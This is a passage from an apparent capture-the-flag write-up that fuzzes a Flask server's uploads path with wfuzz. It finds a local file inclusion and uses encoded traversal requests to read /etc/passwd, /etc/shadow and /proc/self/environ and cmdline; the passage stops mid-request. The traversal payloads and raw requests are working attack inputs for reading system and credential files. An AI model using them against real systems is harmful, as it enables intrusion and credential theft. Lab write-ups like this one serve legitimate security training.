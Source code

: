 ```shell
[root@kali source (public ✗)]$ wfuzz -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 308,500 'http://10.10.11.164/uploads/FUZZ'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.164/uploads/FUZZ
Total requests: 920

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000021:   200        27 L     29 W       1172 Ch     "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"
000000022:   200        27 L     27 W       422 Ch      "..%2F..%2F..%2F%2F..%2F..%2Fetc/shadow"

Total time: 12.15351
Processed Requests: 920
Filtered Requests: 918
Requests/sec.: 75.69828
```
As we can see we get an LFI, now we can enumerate `proc` variables to determine the directory where this service is running and other stuff.  
We can enumerate environment:
```http
GET /uploads/..%2F..%2F..%2F%2F..%2F..%2Fproc/self/environ HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
And we can see that the flask application has a `FLASK_DEBUG=1` flag.  
```http
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.10.3
Date: Sun, 31 Jul 2022 19:15:34 GMT
Content-Disposition: inline; filename=environ
Content-Type: application/octet-stream
Content-Length: 0
Last-Modified: Sun, 31 Jul 2022 19:13:15 GMT
Cache-Control: no-cache
ETag: "1659294795.4441445-0-1059718893"
Date: Sun, 31 Jul 2022 19:15:34 GMT
Connection: close

PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin HOSTNAME=556408955fe5 LANG=C.UTF-8 GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D PYTHON_VERSION=3.10.3 PYTHON_PIP_VERSION=22.0.4 PYTHON_SETUPTOOLS_VERSION=58.1.0 PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/38e54e5de07c66e875c11a1ebbdb938854625dd8/public/get-pip.py PYTHON_GET_PIP_SHA256=e235c437e5c7d7524fbce3880ca39b917a73dc565e0c813465b7a7a329bb279a PYTHONDONTWRITEBYTECODE=1 MODE=PRODUCTION FLASK_DEBUG=1 HOME=/root SUPERVISOR_ENABLED=1 SUPERVISOR_PROCESS_NAME=flask SUPERVISOR_GROUP_NAME=flask WERKZEUG_SERVER_FD=3 WERKZEUG_RUN_MAIN=true
```
We can do the same with cmdline:  
```http
GET /uploads/..%2F..%2F..%2F%2F..%2F..%2Fproc/self/cmdline HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
```
